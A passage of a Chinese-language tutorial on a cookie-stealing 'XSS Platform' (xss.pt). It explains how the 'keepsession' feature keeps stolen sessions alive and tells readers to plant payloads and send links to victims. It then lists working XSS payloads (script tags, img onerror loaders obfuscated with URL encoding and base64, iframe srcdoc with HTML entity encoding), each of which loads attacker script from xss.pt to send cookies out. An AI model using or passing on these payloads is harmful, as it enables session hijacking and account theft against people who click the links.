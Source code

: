 - 无keepsession
- keepsession

`无keepsession`和`keepsession`的区别:

`keepsession`的意思是保持连接，也就是当获取到目标网站的cookie后，保持这个cookie，因为网站cookie可能是有时效的，比如时效为10分钟，那么当接收到这cookie后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择`keepsession`后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择`keepsession`后，XSS Platform将会一直在后台刷新cookie，也就是保持这个cookie的有效性，反之，`无keepsession`就是不保持连接。

那么`keepsession` 到底是怎么样实现的呢？看了下代码发现很简单，平台会自动的隔一段时间，遍历整个 `keepsession` 表里面的数据。随后循环对目标服务器进行一次带cookie的请求。这样就实现了维持会话的功能了。

下面的其他模块，各自代表着xss的其他种攻击，具体可在“配置代码”这步选完进去后，在左边的“公共模块”里点击，查看模块信息

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211015-ecf0bbba-9934-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211015-ecf0bbba-9934-1.jpg)

以下为部分截图，只要将其中一种代码插入怀疑出现XSS的地方，发给别人，如果有人点击该地址，我们就可在"项目内容"中查看其cookie值

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211030-f5f1fdfa-9934-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211030-f5f1fdfa-9934-1.jpg)

其中的代码看情况来用。下面写出我比较常用，直接插入构造，访问后cookie可返回到“项目内容”的代码。

```
图片插件一：  https://xss.pt/GFLXp.jpg    
<Img sRC=https://xss.pt/GFLXp.jpg>

一、
1.<sCRiPt sRC=//xss.pt/GFLX></sCrIpT>

2.标准代码
</tExtArEa>'"><sCRiPt sRC=https://xss.pt/GFLX></sCrIpT>

二、IMG 标签
1.
</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.pt%2FGFLX%22%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

2.<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='https://xss.pt/GFLX';>

3.通杀火狐谷歌360
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwczovL3hzcy5wdC9wNzBlPycrTWF0aC5yYW5kb20oKQ=='))>

三、标签iframe等
1.实体10进制编码↓
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#115;&#46;&#112;&#116;&#47;&#71;&#70;&#76;&#88;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>

2.实体16进制编码
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x78;&#x73;&#x73;&#x2E;&#x70;&#x74;&#x2F;&#x47;&#x46;&#x4C;&#x58;&#x22;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E;>
```
